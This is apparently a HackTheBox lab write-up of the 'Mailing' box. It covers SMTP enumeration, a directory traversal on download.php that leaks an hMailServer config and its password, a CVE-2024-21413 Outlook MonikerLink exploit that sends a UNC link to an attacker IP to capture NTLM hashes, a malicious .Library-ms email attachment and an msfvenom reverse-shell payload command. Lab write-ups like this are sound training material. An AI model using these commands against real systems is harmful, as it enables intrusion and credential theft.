# Mailing -- HackTheBox (write-up)

**Difficulty:** Easy
**Box:** Mailing (HackTheBox)
**Author:** dsec
**Date:** 2025-07-31

---

## TL;DR

### Directory traversal on download.php leaked hMailServer config with admin hash. CVE-2024-21413 (Outlook MonikerLink) used to capture NTLM hash via Responder. Initial access and privesc details in screenshots.

---

## Target info

- Host: `10.129.53.9`
- Domain: `mailing.htb`
- Services discovered: `25/tcp (smtp)`, `80/tcp (http)`, `110/tcp (pop3)`, `135/tcp (msrpc)`, `139/tcp`, `143/tcp (imap)`, `445/tcp (smb)`, `587/tcp (submission)`, `993/tcp`, `995/tcp`

---

## Enumeration

```bash
sudo nmap -Pn -n 10.129.53.9 -sCV -p- --open -vvv
```









Enumerated SMTP users:

```bash
smtp-user-enum -M RCPT -U users.txt -D mailing.htb -t 10.129.139.202
```



```bash
smtp-user-enum -M RCPT -U /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -D mailing.htb -t 10.129.139.202
```



Users: `ruy`, `maya`, `gregory`, `user`

---

## Foothold

Directory traversal on `download.php` leaked hMailServer config:

```
http://mailing.htb/download.php?file=../../../Program+Files+(x86)/hmailserver/bin/hmailserver.ini
```



Cracked admin hash via CrackStation:

| Hash | Type | Password |
|------|------|----------|
| `841bb5acfa6779ae432fd7a4e6600ba7` | md5 | `homenetworkingadministrator` |

Used CVE-2024-21413 (Outlook MonikerLink) to send a malicious email:

```bash
python3 CVE-2024-21413.py --server mailing.htb --port 587 --username administrator@mailing.htb --password homenetworkingadministrator --sender administrator@mailing.htb --recipient maya@mailing.htb --url "\\10.10.14.108\test\meeting" --subject "XD"
```



**Email spoofing attempts did not work:**



Crafted a `.Library-ms` file pointing to attacker IP and sent via `sendemail`:

```bash
sendemail -f gregory@mailing.htb -t ruy@mailing.htb -u "Server Issues" -m "Please address. Thank you." -s 10.129.53.9:25 -a ./config.Library-ms -xu user@mailing.htb -xp password
```



Also attempted email spoofing with `magicspoofmail.py` and msfvenom payload:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.17 LPORT=4444 -f exe -o reverse.exe
```



**Spoofing did not work.**



---

## Lessons & takeaways

- Directory traversal on download/file endpoints can leak application config files
- CVE-2024-21413 (MonikerLink) is a potent way to steal NTLM hashes via Outlook
- Always check for hMailServer `.ini` files when SMTP is exposed
---
